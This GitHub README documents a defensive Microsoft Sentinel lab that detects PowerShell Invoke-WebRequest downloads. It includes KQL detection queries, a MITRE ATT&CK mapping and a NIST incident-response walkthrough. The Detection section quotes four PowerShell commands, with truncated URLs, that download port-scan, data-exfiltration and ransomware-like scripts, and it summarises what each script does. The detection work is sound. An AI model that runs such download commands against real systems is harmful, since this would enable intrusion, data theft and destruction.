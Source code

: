 
# 🔍 PowerShell Suspicious Web Request – Microsoft Sentinel Lab

## 🧪 Scenario Overview

In this lab, we simulate a common post-exploitation tactic where an attacker uses PowerShell to download malicious payloads or tools from the internet using legitimate commands such as `Invoke-WebRequest`. This technique is often used to bypass traditional security mechanisms.

By leveraging Microsoft Defender for Endpoint and Microsoft Sentinel, we detect and investigate this suspicious activity using KQL (Kusto Query Language).

---

## 🎯 Lab Goals

- Detect the use of PowerShell to download remote content.
- Create a scheduled query rule in Microsoft Sentinel.
- Investigate and respond to the incident following the NIST Incident Response Lifecycle.

---

## 📍 Environment

- **VM Name**: `rich-mde-test`
- **Log Source**: `DeviceProcessEvents` (via Defender for Endpoint)
- **SIEM Tool**: Microsoft Sentinel
- **Primary Command**: `Invoke-WebRequest` or `iwr`

---

## 📌 Part 1: Alert Rule Creation

### Objective

Detect PowerShell usage of `Invoke-WebRequest` to download scripts or files.

### Initial Query

```kql
DeviceProcessEvents
| where DeviceName == "rich-mde-test"
| where FileName == "powershell.exe"
```
![image](https://github.com/user-attachments/assets/c78d38c4-e06f-4fa2-91dd-f482e06f490e)

### Refined Detection Query

```kql
DeviceProcessEvents
| where Timestamp > ago(10d)
| where DeviceName == "rich-mde-test"
| where FileName == "powershell.exe"
| where ProcessCommandLine contains "Invoke-WebRequest" or ProcessCommandLine contains "iwr"
| project Timestamp, DeviceName, FileName, ProcessCommandLine, InitiatingProcessFileName
| order by Timestamp desc
```
![image](https://github.com/user-attachments/assets/3128dbbc-c1bf-437d-a50b-f186a315af26)

> 💡 *Note: VM is not always on, so we search across 10 days. If live 24/7, a 24-hour window would be more efficient.*

---

## ⚙️ Part 2: MITRE ATT&CK Mapping

| Tactic              | Technique                     | Description                                                                 |
|---------------------|-------------------------------|-----------------------------------------------------------------------------|
| TA0043 - Recon      | —                             | Gathering info; intent unclear                                              |
| TA0002 - Execution  | T1059.001 - PowerShell        | Execution of PowerShell scripts using Invoke-WebRequest                     |
| TA0009 - Collection | T1074.001 - Local Data Staging| Scripts stage data locally before exfiltration                             |
| TA0010 - Exfil      | T1041 - Exfil Over C2 Channel | Data exfiltration via HTTPS or similar                                      |
| TA0011 - C2         | T1071.001 - Web Protocols     | Uses HTTPS for downloads and C2 communication                               |

---

## 🚨 Alert Rule Deployment

After creating and testing the query, an alert rule was deployed in Sentinel. This rule was assigned, activated, and monitored for real-time threat detection.

![image](https://github.com/user-attachments/assets/f2c59a5b-e5bc-4c8f-9150-48e180a64405)
![image](https://github.com/user-attachments/assets/ccae069b-2863-4ba1-95ce-7d6aa157abc3)
![image](https://github.com/user-attachments/assets/ece70497-e4ed-42c6-a203-c5f7effa716c)
![image](https://github.com/user-attachments/assets/5af2c1b9-b8fe-4918-9806-de07dc96d379)
![image](https://github.com/user-attachments/assets/3d535aae-e69a-44fb-9ecf-699d8783243b)

---

## 🔍 Part 3: Incident Response (NIST Lifecycle)

### ➤ Detection & Analysis

PowerShell executed the following commands to download suspicious scripts:

```powershell
Invoke-WebRequest -Uri https://raw.githubusercontent.com/.../portscan.ps1 -OutFile C:\ProgramData\portscan.ps1
Invoke-WebRequest -Uri https://raw.githubusercontent.com/.../eicar.ps1 -OutFile C:\ProgramData\eicar.ps1
Invoke-WebRequest -Uri https://raw.githubusercontent.com/.../exfiltratedata.ps1 -OutFile C:\ProgramData\exfiltratedata.ps1
Invoke-WebRequest -Uri https://raw.githubusercontent.com/.../pwncrypt.ps1 -OutFile C:\ProgramData\pwncrypt.ps1
```
![image](https://github.com/user-attachments/assets/179529d8-0abe-4c27-ba4a-613099d43eac)

> 🧑‍💻 *User claimed they installed "free software"; in reality, the attack simulator executed the downloads.*

### ➤ Script Summaries

- **portscan.ps1** – Scans IPs 10.0.0.4–10.0.0.10 and logs to `entropygorilla.log`.
- **eicar.ps1** – Triggers AV detection via EICAR string.
- **exfiltratedata.ps1** – Exfiltrates dummy employee data to Azure.
- **pwncrypt.ps1** – Encrypts Desktop CSVs, deletes originals, drops ransom note.

### ➤ Containment, Eradication, Recovery

- Isolated VM via MDE.
- Performed anti-malware scan (clean).
- Removed isolation after confirmation.
  
![image](https://github.com/user-attachments/assets/f37fa957-3fdb-4ad4-b3f3-a2400b944357)


---

## ✅ Post-Incident Activities

- Enforced user cybersecurity awareness training (Ninjio).
- Mandated weekly cybersecurity awareness video with confirmation to supervisor.
- Restricted PowerShell access for non-essential users.

---

## 🏁 Final Actions

- Incident marked as: **True Positive - Suspicious Activity**
- Status: **Closed**

![image](https://github.com/user-attachments/assets/e052cf8b-a8bc-470b-8758-2d81bddd1569)
![image](https://github.com/user-attachments/assets/8e06dbdf-2e5a-4c5d-9b9a-923656e04b4d)
